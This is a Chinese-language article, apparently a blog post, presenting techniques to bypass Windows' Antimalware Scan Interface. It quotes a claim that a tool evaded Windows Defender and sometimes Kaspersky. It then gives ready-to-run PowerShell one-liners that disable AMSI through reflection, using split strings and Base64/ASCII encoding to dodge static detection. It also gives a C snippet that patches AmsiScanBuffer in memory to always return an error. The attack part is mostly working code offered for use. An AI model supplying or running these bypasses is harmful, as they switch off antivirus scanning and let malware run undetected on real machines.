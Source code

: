 在启动混淆过程时，payload 会经历一次变形，在保持其核心功能的同时变得模糊不清，如下图所示：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCOib9micKd4QEXxwEodNUgxJ3t7bqpV2uL159iaNOd8PC7NuqTUAJ18nIftMl9tWJQtUkT7kN2JMybZg/640?wx_fmt=png&from=appmsg "")  
  
> **"我已经对这个工具进行了测试，分别针对 Windows Defender 和某些情况下的 Kaspersky，它都成功地绕过了这些防护，没有遇到任何问题。这就是我将它添加到博客中的原因。:)"**  
  
## - 3 个简单且有效的 PowerShell AMSI 绕过技术  
  
基于反射的绕过方法使用.NET reflection 通过将其内部 amsiInitFailed 标志设置为 true 来禁用 AMSI。  
```
$t=[Ref].Assembly.GetType(('System.Manage'+'ment.Automa'+'tion.AmsiUtils'));$f=$t.GetField(('amsiIn'+'itFailed'),'NonPublic,Static');$f.SetValue($null,$true)
```  
- 它访问 System.Management.Automation 程序集中的 AmsiUtils 类  
  
- 它将 amsiInitFailed 字段设置为 true，强制 AMSI 初始化失败  
- 字符串被分割（'System.Manage'+'ment.Automa'+'tion.AmsiUtils'）以逃避静态检测。  
> Base64 + ASCII 混淆：此方法使用 Base64 和 ASCII 编码来混淆关键字符串，以避免检测。  
  
```
$s=[System.Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('U3lzdGVtLk1hbmFnZW1lbnQuQXV0b21hdGlvbi5BbXNpVXRpbHM='));  $t=[Ref].Assembly.GetType($s);  $t.GetField([System.Text.Encoding]::ASCII.GetString((97,109,115,105,73,110,105,116,70,97,105,108,101,100)),'NonPublic,Static').SetValue($null,$true);
```  
- 从 Base64 解码'System.Management.Automation.AmsiUtils'。  
  
- 将'amsiInitFailed'从 ASCII 字节值转换。  
  
- 使用 reflection 禁用 AMSI。  
  
> 最小化 Reflection 绕过 这是基于 reflection 绕过方法的一个更简洁的版本。  
  
```
$t=[Ref].Assembly.GetType(('System.Manage'+'ment.Automa'+'tion.AmsiUtils'));  $f=$t.GetField(('amsiIn'+'itFailed'),'NonPublic,Static');  $f.SetValue($null,$true);
```  
## - C 语言中的 AMSI 修补技术  
  
本节深入探讨了使用 C 语言编程修补 Antimalware Scan Interface (AMSI) 的各种方法。每种技术都详细说明了其基本原理、实现方式和潜在影响。  
  
**使用 WriteProcessMemory 进行函数修补**  
  
这种技术涉及直接在内存中覆写 AMSI 函数的代码。  
```
HMODULE amsiDll = LoadLibraryA("amsi.dll");  FARPROC functionAddr = GetProcAddress(amsiDll, "AmsiScanBuffer");  unsigned char patch[] = {0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3};  WriteProcessMemory(GetCurrentProcess(), functionAddr, patch, sizeof(patch), NULL);
```  
> - LoadLibraryA("amsi.dll")  
 将 AMSI DLL 加载到进程内存中 - GetProcAddress()  
 获取 AmsiScanBuffer  
 函数的内存地址 - patch  
 数组包含机器码指令：0xB8  
: MOV EAX (将值移动到 EAX 寄存器)0x57, 0x00, 0x07, 0x80  
: 值 0x80070057 (十六进制的 E_INVALIDARG)0xC3  
: RET (从函数返回) - WriteProcessMemory()  
 用我们的补丁覆盖原始函数代码 - 这个补丁使 AmsiScanBuffer  
 始终返回 E_INVALIDARG，从而绕过扫描  
  